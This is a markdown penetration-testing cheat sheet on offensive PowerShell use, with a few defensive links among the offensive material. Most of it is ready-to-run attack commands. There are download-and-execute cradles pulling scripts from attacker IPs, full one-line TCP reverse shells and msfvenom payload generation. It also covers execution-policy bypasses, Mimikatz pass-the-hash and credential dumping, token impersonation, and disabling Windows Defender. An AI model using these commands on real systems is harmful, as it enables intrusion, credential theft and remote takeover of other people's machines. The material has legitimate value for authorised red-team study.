

# Powershell

## Collections

- <https://sid-500.com/downloads/>
- Resource: Infosec PowerShell tools, resources, and authors: <https://www.peerlyst.com/posts/resource-infosec-powershell-tools-resources-and-authors?utm_source=twitter&utm_medium=social&utm_content=peerlyst_post&utm_campaign=peerlyst_shared_post>
- Mayhem scripts: <https://gist.github.com/M3T4L5T3F>
- Collection of PowerShell network security scripts for system administrators: <https://github.com/thom-s/netsec-ps-scripts>

## Quick Reference

- An A-Z Index of Windows **PowerShell** commands: <https://ss64.com/ps/>
- Windows **PowerShell** command line syntax: <https://ss64.com/ps/syntax.html>
- <https://pinvoke.net> - Allowing developers to find, edit and add `PInvoke`[*](https://pinvoke.net/#definePinvoke) signatures, user-defined types, and any other information related to calling Win32 and other unmanaged APIs from managed code (written in languages such as C# or VB.NET).
- Versions
  - v1: November 2006 - Windows XP SP2, Windows Server 2003 SP1 and Windows Vista
  - v2: Windows 7 and Windows Server 2008 R2 (Standalone for: Windows XP SP3, Windows Server 2003 SP2, and Windows Vista SP1)
  - v3: Windows 8 (Can be installed on: Windows 7 SP1, for Windows Server 2008 SP1, and for Windows Server 2008 R2 SP1) (no XP support)
  - v4: Windows 8.1 (Can be installed on:  Windows 7 SP1, for Windows Server 2008 SP1, and for Windows Server 2008 R2 SP1)
  - v5:
    - Part of Windows Management Framework (WMF) 5.0.
    - February 24, 2016.
    - Features OneGet PowerShell cmdlets to support Chocolatey's repository-based apps.
    - Ability to manage layer 2 network switches
    - Windows 10 Anniversary Update
    - Available for Windows 7, Windows Server 2008, Windows Server 2008 R2, Windows Server 2012, and Windows Server 2012 R2
  - v6: PowerShell Core on 18 August 2016
  - Versin information: `$PSVersionTable`
    ```
    Get-Host | Select-Object Version
    $PSVersionTable
    ```
- Help System
  - `Get-Help Get-Process`
  - `help Get-Process`
  - `Update-Help`
  - `Get-Help remoting`
  - `Get-Help about_*remot*`
- Basic Execution
  - 64 bit
    ```bat
    %SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.Webclient).DownloadString('http://10.10.14.17/Invoke-PowerShellTcp.ps1')"
    ```
  - 32 bit
    ```bat
    START /MIN /LOW CMD /C %SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.Webclient).DownloadString('http://10.11.0.50/shells/Invoke-PowerShellTcp.ps1')"
    ```
  - Using command line: `echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.17:8000/Sherlock.ps1') | PowerShell -Noprofile -`
- Basic Constructs
  - Cmdlets
  - Function
- List all Cmdlets: 
  - `Get-Command -CommandTyle Cmdlet`
  - `Get-Command -Name *process*`
- Aliases: `Get-Alias -Name ps` `Get-Alias -Definition Get-Process`
- Check Environment
  - `C:\WIndows\Syswow64\Windowspowershell\v1.0\powershell.exe `
    - `PSModulePath`
  - Version info: `powershell -v 2.0 -c $psversiontable`
  - Language mode: `$host.runspace.languagemode`
  - Check if AppLocker is enabled: `Get-AppLockerPolicy -Local`
  - Powershell Version: `(Get-Host).Version`
  - 64bit version: `%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe`
- Modules
  - `. .\Example.ps1`
  - `Import-Module <path_to_module> -verbose`
  - List all available modules: `Get-Module -ListAvailable -All`
    - List all modules available in: `$env:PSModulePath`
  - All functions exposed by a module: `Get-Command -Module <module_name>`
- Command History (PSReadline)
  - `cat (Get-PSReadlineOption).HistorySavePath | sls password`
  - By default, the path is: `profile:\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
- System Information
  - `Get-HotFix`
- Jobs
  - Run job on a remote machine using `PSSession` or by using `-AsJob` with `-ComputerName`. With `-AsJob` it's possible to see remote jobs using `Get-Job`.
    ```
    Start-Job -ScriptBlock {whoami}
    Start-Job -FilePath <path>

    Get-Job | Receive-Job
    Get-Job -id <id> | Receive-Job
    Remove-Job
    ```
    ```
    Get-Command -ParameterName AsJob
    ```
- Directory search:`Get-HttpStatus`
- Pass the Hash with Powershell
  - <http://www.pwnag3.com/2014/05/what-did-microsoft-just-break-with.html>
    ```
    .\wce.exe –s <Administrator:.:hashes> -c PowerShell.exe

    Invoke-Mimikatz -Command "'"sekurlsa::pth /user:Administrator /domain:. /ntlm:<ntlmhash> /run:powershell.exe'""
    ```
- Persistence
  - WMI permanent event consumers
  - Windows registry
  - Scheduled tasks
- Restricting Powershell
  - <http://www.darkoperator.com/blog/2013/3/21/powershell-basics-execution-policy-and-code-signing-part-2.html>
  - Process tracking and Module logging.
  - ACL, Software Restriction Policies (SRP) and Application Control Policies (Applocker) could be used to control PowerShell. 									 										
    - Both aresupported by GPO, your mileage may vary according to your implementation preferences.
    - `__PSLockDownPolicy` (v3 only)
  - Just Enough Admin – Restrict Administrative Rights - <http://blogs.technet.com/b/privatecloud/archive/2014/05/14/just-enough-administration-step-by-step.aspx>
  - Auditing, Base lining and Incident Management
    - PoshSec - <https://github.com/PoshSec>
    - Kansa - <https://github.com/davehull/Kansa>
    - Voyeur - <https://github.com/silverhack/voyeur/>
    - Using Virus Total API - <https://github.com/darkoperator/Posh-VirusTotal>
  - Investigating PowerShell attacks https://www.defcon.org/images/defcon-22/dc-22-presentations/Kazanciyan-Hastings/DEFCON-22-Ryan-Kazanciyan-Matt-Hastings-Investigating-Powershell-Attacks-UPDATED.pdf
- Bypass
  - Bypassing Applocker Policies - <http://www.sixdub.net/2014/12/02/inexorable-powershell-a-red-teamers-tale-of-overcoming-simple-applocker-policies/>
  - Allowing the execution of Powershell functionality without the use of Powershell.exe (.Net): <https://github.com/Veil-Framework/PowerTools/tree/master/PowerPick>
- Save output
    ```
    Get-Service | Export-CSV C:\Temp\AllServices.CSV –NoTypeInfo
    Get-User –Filter ‘Name –Like “*John”’ | Export-CSV C:\Temp\AllUsers.CSV –NoTypeInfo
    Get-ChildItem –Path C:\Windows\System32 | Export-CSV C:\Temp\AllFiles.CSV -NoTypeInfo
    ```
- Reboots: `Get-EventLog –Log System –Newest 100 | Where-Object {$_.EventID –eq ‘1074’} | FT MachineName, UserName, TimeGenerated -AutoSize`
- Search hotfix: `Get-HotFix –ID KB2877616`
- Backup Group Policy: `Backup-GPO –All –Path C:\Temp\AllGPO`
- Check if all DCs are Global Catalog Servers: `Get-ADDomainController –Filter * | Select Hostname, IsGlobalCatalog`
- Powershell with HID
  - <https://github.com/samratashok/Kautilya/>
  - <http://www.labofapenetrationtester.com/search/label/Kautilya>
  - <http://www.irongeek.com/i.php?page=security/plug-and-prey-malicious-usb-devices>
- TCP / UDP / WMI Shells: <https://github.com/samratashok/nishang/tree/master/Shells>

## Download Files

```powershell
powershell wget "http://example.com/abc.txt" -outfile "abc.txt"
```
```powershell
Invoke-WebRequest -Uri "http://192.168.0.17/PS_TCP4.ps1" -OutFile $fullpath;
```
```bat
powershell -c "Invoke-WebRequest -Uri http://10.10.15.150/41020.exe -OutFile C:\Users\kostas\Desktop\41020.exe"
```
```bat
echo $webclient = New-Object System.Net.WebClient >wget.ps1
echo $url = "http://10.10.10.10/example.exe" >>wget.ps1
echo $file = "example.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInterative -NoProfile -File wget.ps1
```

- Base64 encoded payload delivery
    ```bat
    echo "iex (New-Object Net.WebClient).DownloadString('http://172.16.67.128:80/6WcepYO')" | iconv --to-code UTF-16LE | base64 -w 0
    ```
    ```bat
    kaliwmis-32 -U administrator%badpassword //10.10.10.10 "cmd.exe /c  powershell.exe -nop -enc <base64-value>"
    ```
## Execution Policy

- Not a security feature
- Used to avoid accidental script execution
- Can be bypass with:
  - `powershell.exe -exec Bypass`
  - `powershell -ExecutionPolicy bypass .\example.ps1`
  - `powershell -c <cmd>`
  - `powershell -EncodedCommand <cmd>`
  - `powershell -enc <cmd>`
  - `$env:PSExecutionPolicyPreference="bypass"`
- Ref: <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6>
- 15 ways to bypass PowerShell execution policy: <https://www.netspi.com/blog/entryid/238/15-ways-to-bypass-the-powershell-execution-policy>

## Reverse Shell 

- <http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html>
    ```powershell
    Start-Process -FilePath “powershell” -argumentlist “IEX(New-Object Net.WebClient).downloadString(‘http://10.10.14.30/adminshell.ps1’)” -Credential $cred

    msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.159/Invoke-PowerShellTcp-8082.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
    ```
    ```bat
    powercat -l -v -p 4444 -t 1000
    ```
    ```bat
    powershell -e "<encoded-payload>"
    ```    
    ```powershell
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    ```
    ```powershell
    $sm=(New-Object Net.Sockets.TCPClient("192.168.254.1",55555)).GetStream();[byte[]]$bt=0..255|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
    ```

## Remote Script execution

  - `Invoke-Expression (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
  - `iex (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
  - `powershell -EncodedCommand <Base64EncodedCommand>`
  - `$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://example.com/example.ps1');sleep 5;$resp=$ie.Document.Body.innerHTML;$ie.quit();iex $resp`
  - `iex (iwr 'http://example.com/example.ps1')`
  - `$h=New-Object -ComObject Msxm12.XMLHTTP;$h.open('GET', 'http://192.168.230.1/evil.psi1' ,$false);$h.send();iex $h. responseText`
  - Craft Download Cradles: <https://github.com/danielbohannon/Invoke-CradleCrafter>
    ```powershell
    START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.2/shell.ps1')
    # _/B prevents creation of a new window_
    ```
    ```powershell
    $wr [System.NET.WebRequest]::Create("http://192.168.230.1/evil.psi")
    $r = $wr.GetResponse()
    IEX ([System.IO.StreamReader] ($r.GetResponseStream())) .ReadToEnd()```
    ```

## Powershell Remoting

- Enabled by default from Windows Server 2012
  - `Enable-PSRemoting -Force`
- Admin privileges are required to connect
- `Get-Command -CommandType cmdlet -ParameterName computername`
- `Get-Command -CommandType cmdlet | Where-Object {$_Parameters.Keys --contains 'ComputerName' -and $_Parameters.Keys --contains 'Credential' -and $_Parameters.Keys --notcontains 'Session'}`
- WSMAN (WebServicesManagement) Protocol (WinRM)
  - WinRM is Microsoft’s implementation of WSMAN
  - Port 5985, 5986
  - If target is in a workgroup, attacker's machine should trust target machine to send out credentials:
    - Set-Item  WSMan:\localhost\client\trustedhosts -Value *
  - `Invoke-Command -ScriptBlock {$env:ComputerName} -ComputerName example -Credential dominName/userName `
    - `-FilePath`
  ```powershell
  Invoke-WSManAction -Action Create -ResourceURI wmicimv2/win32_process -ValueSet @{commandline="powershell.exe -c Get-Process"} - ComputerName domainpc –Credential
  ```
  ```powershell
  Invoke-WSManAction -Action Create -ResourceURI wmicimv2/win32_process -ValueSet @{commandline="powershell.exe -c iex ((New-Object Net.Webclient).DownloadString('http://192.168.254. 1/reverse_powershell.ps1'))"} -ComputerName domainpc
  ```
- WSMAN vs PowerShell Remoting vs WMI
  - WSMAN
    - Firewall friendly
    - Use HTTP and HTTPS ports
    - Syntax is complex
    - Returns immutable objects
    - Can be used with non-Windows machines
  - Powershell Remoting
    - Firewall friendly
    - Easy use
    - Returns immutable objects
  - WMI
    - Not firewall friendly
    - Not NAT friendly
    - Complex
    - Returns editable objects
- One to One
  - `Invoke-Command` is stateless for stageful operations use `PSSession`
    - Interactive, stateful session
    - Run in a new process `wsmprovhost`
  - New-PSSession
    - `$ses = New-PSSession -ComputerName <name> -Credential <cred>`
    - `Get-PSSession`
    - `Enter-PSSession`
  - Interactive session: `Enter-PSSession -Sessions $ses`
  - Define a function in a remote machine and call it:
    ```
    Invoke-Command -ScriptBlock {function Example1 {whoami;}} -Session $ses
    Invoke-Command -ScriptBlock {Example1} -Session $ses
    PSSession -CommandName Example1 -Session $ses
    ```
  - Export a command from a remote machine:
    ```
    Export-PSSession -Module <name> -CommandName Example1 -Session $ses
    ```
  - Double Hop Problem (Attacker delegate sending token to target-2 from target-1)
    
    ```
    Enable-WSManCredSSP -Role Client -DelegateComputer
    Enable-WSManCredSSP -Role Server
    Get-WSManCredSSP
    Enter-PSSession -ComputerName <name> -Credential <cred> -Authentication CredSSP
    ```
  - Useful cmdlets
    - New-PSSession
    - Enter-PSSession
      ```powershell
      Set-MpPreference -DisableRealtimeMonitoring $true #Disable Windows Defender
      New-PSSession -ComputerName instance
      $sess = New-PSSession -ComputerName instance
      Enter-PSSEssion - Session $sess
      ```
- One to Many (Fan-out Remoting)
  - Non-interactive
  - Parallel command execution
  - Can:
    - Execute scripts from files
    - Run commands on multiple remote computers
    - Run commands in disconnected sessions (v3)
    - Run as background task
  - Useful in:
    - Perform command execution without dropping exe onto disk
    - Useful for passing and replying hashes, tickets and other AD attacks
  - Run commands: 
    - `Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName instance`
    - `Invoke-Command -ScriptBlock {Get-Process} -ComputerName (Get-Content <list-of-servers>)`
  - Run scripts: 
    - `Invoke-Command -FilePath example.ps1 -ComputerName instance`
  - Run functions installed on the remote box: 
    - `Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -ComputerName instance`
  - `Invoke-Command` doesn't create a session.
  - Stateful commands:
    ```powershell
    $sess = New-PSSession -ComputerName instance
    Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
    Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
    ```

## Tools

- Mimikatz (ReflectivePEInjection is used to load into memory)
  - Uses `ReflectivePEInjection` <https://powersploit.readthedocs.io/en/latest/CodeExecution/Invoke-ReflectivePEInjection/> to load mimikatz into memory
  - Pass the Hash
    ```
    Invoke-Mimikatz -Command '"sekurlsa::pth /user:<name_of_the_user> /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
    ```
    ```
    Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator  /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
    ```
    ```
    Invoke-Mimikatz -DumpCreds
    Invoke-Mimikatz -DumpCerts
    ```

  - Dump Creds from multiple machines
    ```
    Invoke-Mimikatz -DumpCreds -ComputerName @("instance1", "instance2")
    ```
- Load PowerUp
    ```
    powershell -ExecutionPolicy Bypass
    Import-Module ./PowerUp.ps1
    Invoke-AllChecks
    ```

## Active Directory

- [ADSI]
  - Get member of the domain admin group: `([ADSI]"LDAP://cn=Domain Admin,cn=Users,dc=Example,dc=com").Members`
  - Get memberships of a user: `([ADSI]"LDAP://cn=Administrator,cn=Users,dc=Example,dc=com").MemberOf`
- .NET Class: `System.DirectoryServices.ActiveDirectory`
- Native Executable
- PowerShell (,Net classes or WMI or AD module)

## .Net

- Exploring Assemblies
  - Finding assemblies
    ```
    $Classes = [AppDomain]::CurrentDomain.GetAssemblies()
    $Classes = [AppDomain]::CurrentDomain.GetAssemblies() | ForEach-Object {$_.GetTypes()} | Where-Object {$_.IsPublic -eq "True"}
    ```
  - Working with assemblies and invoking functions
    ```
    $ProcClass = $Classes | Where-Object {$_.Name -eq "Proccess"}
    $ProcClass | Get-Members
    $ProcClass | Get-Members -MemberType Method -Static
    $ProcClass.GetMethods()
    $ProcClass::GetCurrentProcess()
    $ProcClass.FullName

    [System.Diagnostic.Process]::GetCurrentProcess()

    [System.Diagnostic.Process] | Get-Members -MemberType Method -Static | Format-List *
    ```
    ```
    Add-Type -AssemblyName System.Windows.Forms
    [System.Windows.Forms.Sendkeys]
    ```
  - AssemblyName
    ```
    Add-Type -AssemblyName System.ServiceProcess
    [System.ServiceProcess.ServiceController] | Get-Members -MemberType Method -Static | Format-List *
    [System.ServiceProcess.ServiceController]::GetDevices()
    ```
  - TypeDefinition
    ```
    $DotnetCode = @"
    public class SysCommands

    public static void lookup (string domainname) {
    System. Diagnostics.Process.Start("ns lookup.exe", domainname) ;
    }

    public void netcmd (string cmd) {
    string cmdstring = "/k net.exe " + cmd;
    System. Diagnostics.Process.Start("cmd. exe" ,cmdstring) ;
    }

    public static void Main() {
    string cmdstring = "/k net.exe " + "user";
    System. Diagnostics.Process.Start("cmd. exe",cmdstring);
    }
    "@

    # Compile .Net code and load objects from it
    Add-Type -TypeDefinition $DotnetCode -OutputType Library -OutputAssembly SysCommand.dll
    Add-Type -TypeDefinition $DotnetCode -OutputType ConsoleApplication -OutputAssembly SysCommand.exe
    [SysCommand]::lookup("google.com")

    # Load objects from a DLL into Memory
    $obj = Add-Type -Path SysCommand.dll -PassThru
    $obj | Get-Members
    [SysCommand]::lookup("google.com")

    # Calling non-static functions
    $obj = New-Object SysCommands
    $obj .netcmd("user")#>
    ```
  - MemberDefinition - DLL Import
    ```
    $Apicode = @"

    [DllImport("kerne132.d11")]
    public static extern bool CreateSymbolicLink(string IpSymlinkFileName, string IpTargetFileName, int dwFlags);

    "@

    $SymLink = Add-Type -MemberDefinition $ApiCode -Name Symlink -Namespace CreatSymLink -PassThru
    $SymLink::CreateSymbolicLink('C:\test\link', 'C:\Users\', 1)
    ```

## WMI

- Exploring namespaces: `Get-WmiObject -Namespace "root" -Class "__Namespace" | select name`
- List even the nested namespaces: <http://www.powershellmagazine.com/2013/10/18/pstip-list-all-wmi-namespaces-on-a-system/>
- Exploring Classes: `Get-WmiObject –NameSpace “<namespace>” –List`
- Exploring Methods: `Get-WmiObject -Class <class> -List | Select-Object -ExpandProperty Methods`
- Filter based on properties of objects getting returned: 
    ```
    Get-WmiObject -Class Win32_Process -Filter (Name = "powershell.exe")
    Get-WmiObject -Class Win32_Process | Where-Object {$_.Name -eq "powershell.exe"}
    Get-WmiObject -Query {Select * from Win32_Process where Name = "powershell.exe"}
    ```
    ```
    Remove-WmiObject
    ```
    ```
    Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe"
    Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe" - ComputerName <name> -Credential <cred>  
    ```

## COM Objects

- Explore available COM objects:
    ```
    Get-ChildItem REGISTRY::HKEY_CLASSES_ROOT\CLSID -include PROGID -recurse | foreach {$_.GetValue("")} | Where-Object {$_ -match “<appname>"}
    ```
    ```
    $wscript = New-Object -ComObject WScript.Shell.1
    $wscript | Get-Member
    $wscript.CurrentDirectory
    $wscript.SendKeys("Hello")
    $wscript.Exec("cmd")
    $wscript.CreateShortcut(...)
    ```
- Interesting COM Objects
  - WScript.Shell.1
  - Shell.Applcation.1   

## Windows Registry

```
Get-Item 'HKLM:\SOFTWARE\Microsoft\Windows NT\Current Version'
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\Windows NT\Current Version' -Recurse
```
- Use registry as filesystem:
    ```
    Get-Provider -PSProvider Registry
    ```
    ```
    Set-Location Registry::
    > ls
    > cd HKLM
    > ls

    New-PSDrive -name RegistryDrive -PSProvider Registry -Root Registry::
    > dir

    Get-PSDrive

    New-Item -Path HKCU:\Test\New
    New-ItemProperty -Path HKCU:\Test\New -Name Reg2 -PropertyType String -Value 2
    Rename-Item HKCU:\Test -NewName HKCU:TestNew
    Rename-ItemProperty HKCU:\Test\New -Name Reg2 -NewName Reg3
    Set-ItemProperty -Path HKCU:\Test\New -Name Reg2 -Value 3
    ```

- Client Side Attacks
  - Out-Word
  - Out-Excel
  - Out-CHM
  - Out-Shortcut
  - Out-HTA
  - Out-Java
- Encoding
  - `Invole-Encode -DataToEncode example.ps1 -OutCommand `
    - `Out-CHM -Payload "-e <encodedValue>"`

## Metasploit

- Using Powershell with Metasploit: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Powershell-in-an-exploit>
    ```
    msfvenom meterpreter
    ./msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> -f psh-reflection

    cmd/windows/reverse_powershell
    ```
- Useful modules:
  - exploit/windows/smb/psexec_psh
    - Payload is encoded
  - exploit/windows/local/powershell_cmd_upgrade
    - Upgrade native to Powershell
  - post/windows/manage/powershell/exec_powershell
  - exploit/multi/script/web_delivery

## Modules

- Posh-SecMod
  - [https://github.com/darkoperator/Posh-SecMod](https://github.com/darkoperator/Posh-SecMod) - PowerShell Module with Security cmdlets for security work
  - Discovery: Perform network discovery.
  - Parse: Parsers for Nmap, DNSRecon and other type of output files from security tools.
  - PostExploitation: Functions to help in performing post exploitation tasks.
  - Registry: Collection of functions for manipulating the registry in remote hosts using WMI.
  - Utilities: General purpose functions.
  - Audit: Functions that may be usful when performing audit of systems.
  - Database: Functions that are useful when interacting with databases.
- PowerSploit
  - [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) - A PowerShell Post-Exploitation Framework
  - CodeExecution
    - `Invoke-DllInjection`Injects a Dll into the process ID of your choosing.
    - `Invoke-ReflectivePEInjection`Reflectively loads a Windows PE file (DLL/EXE) in to the powershell process, or reflectively injects a DLL in to a remote process.
    - `Invoke-Shellcode`Injects shellcode into the process ID of your choosing or within PowerShell locally
    - .`Invoke-WmiCommand`Executes a PowerShell ScriptBlock on a target computer and returns its formatted output using WMI as a C2 channel.
  - ScriptModification
    - `Out-EncodedCommand`Compresses, Base-64 encodes, and generates command-line output for a PowerShell payload script.
    - `Out-CompressedDll`Compresses, Base-64 encodes, and outputs generated code to load a managed dll in memory.
    - `Out-EncryptedScript`Encrypts text files/scripts.
    - `Remove-Comments`Strips comments and extra whitespace from a script.
  - Persistence
    - `New-UserPersistenceOption`Configure user-level persistence options for the Add-Persistence function.
    - `New-ElevatedPersistenceOption`Configure elevated persistence options for the Add-Persistence function.
    - `Add-Persistence`Add persistence capabilities to a script.`Install-SSP`Installs a security support provider (SSP) dll.
    - `Get-SecurityPackages`Enumerates all loaded security packages (SSPs).
  - AntivirusBypass
    - `Find-AVSignature`Locates single Byte AV signatures utilizing the same method as DSplit from "class101".
  - Exfiltration
    - `Invoke-TokenManipulation`Lists available logon tokens. Creates processes with other users logon tokens, and impersonates logon tokens in the current thread.
      - `Invoke-TokenManipulation -CreateProcess "cmd.exe" -Username "nt authority\system"`
      - `GetProcess lass | Invoke-TokenManipulation -ImperrsonateUser `
    - `Invoke-CredentialInjection`Create logons with clear-text credentials without triggering a suspicious Event ID 4648 (Explicit Credential Logon).
    - `Invoke-NinjaCopy`Copies a file from an NTFS partitioned volume by reading the raw volume and parsing the NTFS structures.
      - Copy from NTDS.dit, SYSTEM, SAM Hive
    - `Invoke-Mimikatz`Reflectively loads Mimikatz 2.0 in memory using PowerShell. Can be used to dump credentials without writing anything to disk. Can be used for any functionality provided with Mimikatz.
      - `Invoke-Mimikatz -DumpCreds`
      - `Invoke-Mimikatz -DumpCerts`
    - `Get-Keystrokes`Logs keys pressed, time and the active window.
    - `Get-GPPPassword`Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
      - KB2928120
    - `Get-GPPAutologon`Retrieves autologon username and password from registry.xml if pushed through Group Policy Preferences.
    - `Get-TimedScreenshot`A function that takes screenshots at a regular interval and saves them to a folder.
    - `New-VolumeShadowCopy`Creates a new volume shadow copy.
    - `Get-VolumeShadowCopy`Lists the device paths of all local volume shadow copies.
    - `Mount-VolumeShadowCopy`Mounts a volume shadow copy.
    - `Remove-VolumeShadowCopy`Deletes a volume shadow copy.
    - `Get-VaultCredential`Displays Windows vault credential objects including cleartext web credentials.
    - `Out-Minidump`Generates a full-memory minidump of a process.
    - `Get-MicrophoneAudio`Records audio from system microphone and saves to disk
  - Mayhem
    - `Set-MasterBootRecord`Proof of concept code that overwrites the master boot record with the message of your choice.
    - `Set-CriticalProcess`Causes your machine to blue screen upon exiting PowerShell.
  - Privesc
    - `PowerUp`Clearing house of common privilege escalation checks, along with some weaponization vectors.
      - Service Enumeration:
        - `Get-ServiceUnquoted` - returns services with unquoted paths that also have a space in the name
        - `Get-ModifiableServiceFile` - returns services where the current user can write to the service binary path or its config
        - `Get-ModifiableService` - returns services the current user can modify
        - `Get-ServiceDetail` - returns detailed information about a specified service
      - Service Abuse:
        - `Invoke-ServiceAbuse` - modifies a vulnerable service to create a local admin or execute a custom command
        - `Write-ServiceBinary` - writes out a patched C# service binary that adds a local admin or executes a custom command
        - `Install-ServiceBinary` - replaces a service binary with one that adds a local admin or executes a custom command
        - `Restore-ServiceBinary` - restores a replaced service binary with the original executable
      - DLL Hijacking:
        - `Find-ProcessDLLHijack` - finds potential DLL hijacking opportunities for currently running processes
        - `Find-PathDLLHijack` - finds service %PATH% DLL hijacking opportunities
        - `Write-HijackDll` - writes out a hijackable DLL
      - Registry Checks:
        - `Get-RegistryAlwaysInstallElevated` - checks if the AlwaysInstallElevated registry key is set
        - `Get-RegistryAutoLogon` - checks for Autologon credentials in the registry
        - `Get-ModifiableRegistryAutoRun` - checks for any modifiable binaries/scripts (or their configs) in HKLM autoruns
      - Miscellaneous Checks:
        - `Get-ModifiableScheduledTaskFile` - find schtasks with modifiable target files
        - `Get-UnattendedInstallFile` - finds remaining unattended installation files
        - `Get-Webconfig` - checks for any encrypted web.config strings
        - `Get-ApplicationHost` - checks for encrypted application pool and virtual directory passwords
        - `Get-SiteListPassword` - retrieves the plaintext passwords for any found McAfee's SiteList.xml files
        - `Get-CachedGPPPassword` - checks for passwords in cached Group Policy Preferences files
      - Other Helpers/Meta-Functions:
        - `Get-ModifiablePath` - tokenizes an input string and returns the files in it the current user can modify
        - `Get-CurrentUserTokenGroupSid` - returns all SIDs that the current user is a part of, whether they are disabled or not
        - `Add-ServiceDacl` - adds a Dacl field to a service object returned by Get-Service
        - `Set-ServiceBinPath` - sets the binary path for a service to a specified value through Win32 API methods
        - `Test-ServiceDaclPermission` - tests one or more passed services or service names against a given permission set
        - `Write-UserAddMSI` - write out a MSI installer that prompts for a user to be added
        - `Invoke-AllChecks` - runs all current escalation checks and returns a report
  - Recon
    - `Invoke-Portscan`Does a simple port scan using regular sockets, based (pretty) loosely on nmap.
    - `Get-HttpStatus`Returns the HTTP Status Codes and full URL for specified paths when provided with a dictionary file.
    - `Invoke-ReverseDnsLookup`Scans an IP address range for DNS PTR records.
    - `PowerView`PowerView is series of functions that performs network and Windows domain enumeration and exploitation.
      - Misc
         - `Export-PowerViewCSV `- thread-safe CSV append
         - `Set-MacAttribute` - Sets MAC attributes for a file based on another file or input (from Powersploit)
         - `Copy-ClonedFile` - copies a local file to a remote location, matching MAC properties
         - `Get-IPAddress` - resolves a hostname to an IP
         - `Test-Server` - tests connectivity to a specified server
         - `Convert-NameToSid` - converts a given user/group name to a security identifier (SID)
         - `Convert-SidToName` - converts a security identifier (SID) to a group/user name
         - `Convert-NT4toCanonical` - converts a user/group NT4 name (i.e. dev/john) to canonical format
         - `Get-Proxy` - enumerates local proxy settings
         - `Get-PathAcl` - get the ACLs for a local/remote file path with optional group recursion
         - `Get-UserProperty` - returns all properties specified for users, or a set of user:prop names
         - `Get-ComputerProperty` - returns all properties specified for computers, or a set of computer:prop names
         - `Find-InterestingFile` - search a local or remote path for files with specific terms in the name
